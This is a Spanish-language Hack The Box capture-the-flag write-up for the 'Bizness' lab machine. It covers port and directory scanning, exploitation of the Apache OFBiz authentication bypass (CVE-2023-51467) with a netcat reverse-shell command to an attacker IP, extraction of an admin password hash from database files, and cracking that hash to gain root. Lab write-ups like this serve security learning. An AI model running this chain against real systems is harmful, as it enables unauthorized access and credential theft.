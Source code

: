 ```yaml
---
layout: writeup
category: pingu489
chall_description: 
points: 20
solves: 
tags: 
date: 2024-04-27
comments: true
---
```

---
Hack The Box 

Maquina: Bizness

Objetivo: 

Dificultad: Facil


---
## Escaneo
Fase 1: Escaneo de puertos 

Con nmap haremos un escaneo con la ip que nos proporciona htb para ver que puertos tiene abiertos y esta utilizando la maquina.



```
$ nmap -sV 10.10.11.252
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-02 05:32 CEST
Nmap scan report for bizness.htb (10.10.11.252)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
Esta utilizando el puerto 80, asi que tiene una pagina web activa.

![Branching](/assets/images/bizznes/biznessweb.jpg)

Intente utilizar varias veces la herramienta que utilice en la maquina devvortex pero me daba un error asi que probe "dirbuster" que es una alternativa y busque los directorios ocultos y uno me llamo la atencion... se llamaba "control/login", al tener el nombre de login supuse que seria el login de la pagina.
```
(pingu㉿kaliPingu)-[~]
└─$ dirbuster -u https://bizness.htb                      
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200

Dir found: /control/login/ - 200


```

Y lo era!

![Branching](/assets/images/bizznes/loginweb.jpg)

Probe las tipicas contraseñas como "admin" "root" pero nada... y me fije arriba que ponia : OFBizz

Busque en google y formaba parte de apache, el sistema de host de linux y tras buscar una vulnerabilidad encontre una llamada : CVE-2023-51467

Esta vulnerabilidad permite a los atacantes y eludir los procesos de autenticación,permitiendo ejecutar codigo.... asi que era perfecto!

En el siguiente enlace de google tenia ya el repositorio github!

https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass


Con el comando "git clone" copiaremos el repositorio y comprobaremos que lo tenemos todo dentro dela carpeta.
```
(pingu㉿kaliPingu)-[~/Escritorio]
└─$ git clone https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass
Clonando en 'Apache-OFBiz-Authentication-Bypass'...
remote: Enumerating objects: 19, done.
remote: Counting objects: 100% (14/14), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 19 (delta 3), reused 7 (delta 1), pack-reused 5
Recibiendo objetos: 100% (19/19), 51.44 MiB | 12.47 MiB/s, listo.
Resolviendo deltas: 100% (3/3), listo.
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio]
└─$ cd Apache-OFBiz-Authentication-Bypass 
                                                                                                               
┌──(pingu㉿kaliPingu)-[~/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─$ ls
exploit.py  README.md  xdetection.py  ysoserial-all.jar

```

Vayamos por partes, como dijo jack el destripador:

Primero nos pondremos en escucha por el puerto 444

```
(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# nc -lvnp 4444

```
Iremos a otra terminal dejando esa en escucha.

En esta nueva terminal ejecutarmeos el exploit con el comando como nos explica en el repositorio github pero añadiremos un extra.

Desde la web https://www.revshells.com crearemos un comando para la reversell poniendo nuestra ip ( la que nos proporciona la VPN de HTB y) y elpuerto 4444 y copiaremos el comando y lo pondremos al final entre las comillas.

```
─(root㉿kaliPingu)-[/home/pingu/Escritorio/Apache-OFBiz-Authentication-Bypass]
└─# python3 exploit.py --url https://bizness.htb --cmd 'nc -c sh 10.10.14.13 4444'
[+] Generating payload...
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.
```

Ahora iremos a la otra ventana de la terminal con el puerto en escucha 444 y podremos escrbir id y veremos que estaremos dentro.ponemos el comando para indicarle la bash y asi trabajar mas comodos!

## Primera bandera


```
script /dev/null -c /bin/bash
```

Ahora nos moveremos por los directorios hacia atras usando los ".." y iremos a la carpeta del usuario ofbiz y haremos cat con el archivo y veremos la bandera.

```
ofbiz@bizness:/opt/ofbiz$ ls
ls
APACHE2_HEADER  DOCKER.md                INSTALL              runtime
applications    docs                     lib                  SECURITY.md
build           framework                LICENSE              settings.gradle
build.gradle    gradle                   NOTICE               themes
common.gradle   gradle.properties        npm-shrinkwrap.json  VERSION
config          gradlew                  OPTIONAL_LIBRARIES
docker          gradlew.bat              plugins
Dockerfile      init-gradle-wrapper.bat  README.adoc
ofbiz@bizness:/opt/ofbiz$ cd ..
cd ..
ofbiz@bizness:/opt$ ls
ls
ofbiz
ofbiz@bizness:/opt$ cd ..
cd ..
ofbiz@bizness:/$ ls
ls
bin   home            lib32       media  root  sys  vmlinuz
boot  initrd.img      lib64       mnt    run   tmp  vmlinuz.old
dev   initrd.img.old  libx32      opt    sbin  usr
etc   lib             lost+found  proc   srv   var
ofbiz@bizness:/$ cd home
cd home
ofbiz@bizness:/home$ ls
ls
ofbiz
ofbiz@bizness:/home$ cd ofbiz
cd ofbiz
ofbiz@bizness:~$ ls
ls
user.txt
ofbiz@bizness:~$ cat user.txt
cat user.txt
```

Ya tenemos la primera bandera! ahora vamos a por la segunda :D

## Ser Root

Dentro del directorio "/opt/ofbiz/framework/resources/templates" Tendremos
un archivo llamado AdminUserLoginData.xml y tras leerlo con cat veremos un codigo con "SHA" significa que la contraseña esta encripatada y tendremos que desencripatarla, pero esa no es la que necesitamos!

Iremos a la direccion : /opt/ofbiz/runtime/data/derby/ofbiz/seg0 y aqui veremos con "ls" muchisimos archivos , pues con grep filtraremos para ver todo lo que contiene SHA y strings.


 ```
ofbiz@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0$ strings * | grep SHA
strings * | grep SHA
SHA-256
MARSHALL ISLANDS
SHAREHOLDER
SHAREHOLDER
                <eeval-UserLogin createdStamp="2023-12-16 03:40:23.643" createdTxStamp="2023-12-16 03:40:23.445" currentPassword="$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I" enabled="Y" hasLoggedOut="N" lastUpdatedStamp="2023-12-16 03:44:54.272" lastUpdatedTxStamp="2023-12-16 03:44:54.213" requirePasswordChange="N" userLoginId="admin"/>
"$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
 ```
Y.. BINGO! ya tenemos el sha bueno, ahora toca desencriparlo

Utilizaremos una herramienta que he encontrado en github

https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker

Con git clone copiaremos el repositorio en el escritorio y usaremos esa clave para descifrar la contraseña.


```
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
```

```
# python3 OFBiz-crack.py --hash-string '$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I' wordlist /home/pingu/Escritorio/Diccionarios/rockyou.txt
[+] Attempting to crack....
Found Password: monkeybizness
hash: $SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
(Attempts: 1478438)
[!] Super, I bet you could log into something with that!


```

Como veremos la contraseña es monkeybizness asi que haremos el comando su root y pondremos la contraseña, luego iremos a "cd /root " y con ls veremos la ultima bandera.

```
root@bizness:/opt/ofbiz/runtime/data/derby/ofbiz/seg0# cd /root
cd /root
root@bizness:~# ls
ls
root.txt
root@bizness:~# cat root.txt
cat root.txt

```



Conclusion: La verdad es que esta maquina ha requerido mas busquedas en internet, sobretodo para descifrar la clave del sha, por que la primera que descubrimos no es y hay que buscar mas a fondo en los archivos de la carpeta, pero al final ayudandonos de google ( que para eso esta) conseguimos sacarla.
Una maquina que me ha gustado mucho por el uso del descifrado de contraseñas!







https://github.com/duck-sec/Apache-OFBiz-SHA1-Cracker
